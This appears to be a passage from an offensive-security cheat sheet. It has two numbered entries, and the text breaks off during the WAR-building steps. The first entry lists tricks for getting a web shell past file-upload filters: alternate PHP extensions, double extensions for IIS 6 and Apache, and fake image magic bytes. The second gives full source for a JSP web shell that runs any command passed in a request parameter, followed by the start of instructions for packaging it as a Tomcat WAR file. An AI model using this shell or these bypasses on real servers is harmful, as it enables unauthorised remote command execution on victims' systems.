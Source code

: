 

=======================
165
bypass web shell upload filter


try .php3 .php5 extensions
try .php;.txt for IIS 6 vulnerabilites
try .php.test in case apache has no handler for test and it falls back to php
try with BUrp to put the first bytes as a copy from actual image [linux magic byteews]








=============================
166
tomcat jsp war shell
 WAR file (Web Application Resource or Web application ARchive) with a reverse
shell using msfvenom. A WAR file is basically a zipped file that contains a web application that can be
deployed on a servlet/jsp container.




create this file


<FORM METHOD=GET ACTION='index.jsp'>
<INPUT name='cmd' type=text>
<INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
<%
   String cmd = request.getParameter("cmd");
   String output = "";
   if(cmd != null) {
      String s = null;
      try {
         Process p = Runtime.getRuntime().exec(cmd,null,null);
         BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
         while((s = sI.readLine()) != null) { output += s+"</br>"; }
      }  catch(IOException e) {   e.printStackTrace();   }
   }
%>
<pre><%=output %></pre>




We can now create a directory name webshell and put our file (index.jsp) inside it:


$ mkdir webshell
$ cp index.jsp webshell
Now we can build the war file using jar (provide with java):
